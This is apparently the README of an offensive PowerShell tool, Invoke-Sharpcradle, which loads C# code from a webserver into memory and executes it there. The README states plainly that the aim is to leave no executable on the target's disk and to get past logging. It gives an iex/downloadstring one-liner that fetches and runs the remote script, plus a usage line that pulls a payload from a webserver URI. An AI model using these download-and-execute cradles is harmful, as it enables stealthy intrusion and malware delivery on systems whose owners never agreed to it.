 # Invoke-Sharpcradle
Load C# Code from a Webserver straight to memory and execute it there.

All I did here was to take the C# code from https://github.com/anthemtotheego/SharpCradle and convert it into a Powershell script using Add-Type. 

Why? No executable on the target system hard disk. Powershell in memory, C# code in memory. To bypass Script Block logging further precautions have to be taken.

`iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/SecureThisShit/Invoke-Sharpcradle/master/Invoke-Sharpcradle.ps1')`

`Invoke-Sharpcradle -Uri WebserverURI -Argument1 firstargument -Argument2 seccondargument -Argument3 thirdargument`

![alt text](https://raw.githubusercontent.com/SecureThisShit/Invoke-Sharpcradle/master/Invoke-Sharpcradle.png)
